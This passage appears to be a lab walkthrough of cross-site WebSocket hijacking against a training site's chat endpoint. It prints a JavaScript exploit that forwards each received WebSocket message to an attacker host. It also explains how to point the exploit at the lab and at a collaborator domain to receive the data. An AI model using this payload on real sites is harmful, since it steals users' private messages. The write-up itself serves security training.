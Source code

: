 As we see vulnerability is in chat end point.

<img src="images/image11.png" alt="third" width="600">

**Step2**

Now we craft an exploit. This exploit is also available at 'palyoad all the thing github'
```
<script>

  ws = new WebSocket('wss://vulnerable.example.com/messages');

  ws.onopen = function start(event) {

    ws.send("HELLO");

  }

  ws.onmessage = function handleReply(event) {

    fetch('https://attacker.example.net/?'+event.data, {mode: 'no-cors'});

  }

  ws.send("Some text sent to the server");

</script>
```

**Replacing** `'wss://vulnerable.example.com/messages'` it with

`wss://0a6200fb03ba37db81d3251d002200a1.web-security-academy.net/chat`

And

`'[https://attacker.example.net/](https://attacker.example.net/)?`

With our collaborator

`ta7qgaxhh2gu5f7uz5e92fnk5bb2zunj.oastify.com`

And we replace hello with READY because communication start after READY message

<img src="images/image_unmap2.png" alt="third" width="500">
